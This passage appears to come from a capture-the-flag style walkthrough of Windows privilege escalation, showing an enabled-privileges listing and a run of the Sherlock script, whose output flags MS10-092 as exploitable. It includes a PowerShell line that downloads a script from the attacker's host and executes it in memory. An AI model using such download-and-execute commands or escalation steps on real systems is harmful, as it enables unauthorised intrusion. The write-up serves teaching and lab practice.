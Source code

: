     Privilege Name                Description                               State
    ============================= ========================================= =======
    SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
    SeAuditPrivilege              Generate security audits                  Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
    

#### Sherlock

Another tool to try is [Sherlock](https://github.com/rasta-mouse/Sherlock).
Unfortunately, it’s no longer being maintained, in favor of Watson (see more
on that later). Still, it’s a quick PowerShell Script that will identify some
kernel exploits.

Upload it, and then run `Find-AllVulns`. It looks like MS10-092 is a good
candidate:

    
    
    PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
    PS C:\users\merlin\appdata\local\temp> Find-AllVulns
    
    Title      : User Mode to Ring (KiTrap0D)
    MSBulletin : MS10-015
    CVEID      : 2010-0232
    Link       : https://www.exploit-db.com/exploits/11199/
    VulnStatus : Not supported on 64-bit systems
    
    Title      : Task Scheduler .XML
    MSBulletin : MS10-092
    CVEID      : 2010-3338, 2010-3888
    Link       : https://www.exploit-db.com/exploits/19930/
    VulnStatus : Appears Vulnerable
    
    Title      : NTUserMessageCall Win32k Kernel Pool Overflow
    MSBulletin : MS13-053
    CVEID      : 2013-1300
    Link       : https://www.exploit-db.com/exploits/33213/
    VulnStatus : Not supported on 64-bit systems
    
    Title      : TrackPopupMenuEx Win32k NULL Page
    MSBulletin : MS13-081
    CVEID      : 2013-3881
    Link       : https://www.exploit-db.com/exploits/31576/
    VulnStatus : Not supported on 64-bit systems
    
    Title      : TrackPopupMenu Win32k Null Pointer Dereference
    MSBulletin : MS14-058
    CVEID      : 2014-4113
    Link       : https://www.exploit-db.com/exploits/35101/
    VulnStatus : Not Vulnerable
    